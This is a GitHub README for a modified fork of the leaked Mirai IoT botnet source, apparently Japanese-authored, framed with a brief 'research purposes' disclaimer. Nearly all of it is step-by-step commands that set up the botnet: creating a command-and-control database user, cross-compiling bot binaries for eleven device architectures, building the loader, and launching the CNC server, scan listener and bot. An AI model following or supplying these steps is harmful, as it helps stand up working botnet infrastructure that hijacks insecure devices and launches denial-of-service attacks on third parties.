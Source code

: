 # Mirai BotNet to Tashiro(ミライ砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* Do not run in WSL.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.

https://programmer.group/mirai-botnet-environment-setup-steps.html

```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
# service mysql start
```
Add users to mysql.
```
# cat db.sql | mysql -uroot -proot
# mysql -uroot -proot
> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# service mysql restart
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh debug telnet
# ./build.sh release telnet
# cp ../prompt.txt debug
# cp ../prompt.txt release
# cd /release
```
Build loader
```
# cd ../loader
# chmod +x build.sh
# ./build.sh
```
This completes the installation. :)

## How to use
※If you are not logged in as root, be sure to add sudo and follow these steps.

https://programmer.group/mirai-botnet-environment-setup-steps.html

```
# ./debug/cnc
```
Open a new winsow.
```
# telnet cnc.change.com 23
```
username & password
```
username: mirai-user
password: mirai-user
```
Open a new winsow.
```
# cd mirai/debug
# ./scanListen
```
Open a new winsow.
```
# ./mirai.dbg
```
